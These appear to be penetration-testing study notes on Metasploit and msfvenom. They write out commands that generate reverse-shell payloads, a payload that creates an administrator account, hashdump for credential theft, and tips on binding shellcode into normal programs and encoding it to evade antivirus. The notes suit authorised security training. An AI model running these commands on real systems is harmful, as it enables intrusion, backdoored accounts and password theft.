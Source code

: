   - Creating basic payload
    - msfvenom -p linux/x64/shell_reverse_tcp LHOST= LPORT -f elf > payload.elf
    - msfvenom -p  windows/shell_reverse_tcp LHOST= LPORT -f exe > payload.exe

- [Stage vs Stageless](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/)
  - stageless: shell_reverse_tcp = one thing only
  - staged: /shell/reverse_tcp

- Smaller payloads
  - Payload with a single command: **CMD='net user pwnd Password321 /add;net localgroup administrators pwdn /add'**

- Binding
  - Merge shellcode WITH normal program
  - Fool users
  - still can be detected by AVs
  - Better: encode + encrypt + packers + binder

- Encoding and Encrypting
  - msfvenom --list encoders / encrpyt
  - -e encoder_option
  - -i interation

### Bypass AV
|                                       Source                                       |
| :--------------------------------------------------------------------------------: |
| [MSFVenom & Metasploit-Framework ](https://github.com/rapid7/metasploit-framework) |
|   [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)   |
|           [Mythic C2 Framework](https://github.com/its-a-feature/Mythic)           |
|                 [Nishang](https://github.com/samratashok/nishang)                  |
|                 [Darkarmour](https://github.com/bats3c/darkarmour)                 |

### Meterpreter
- sysinfo
- getpid
- hashdump (migrate to process first)
- getpid
- getpriv
- migrate PID [try and error, migrating to existing process] + check hashdump
- search

### Metasploit with database
- Basic usage
  - use handler/multi
  - set payload

1. service postgresql start
2. service metasploit start
3. update-rc.d postgresql enable *for performance*
4. update-rc.d metasploit enable *for performance*
5. db_rebuild_cache [in msf console] *for performance*
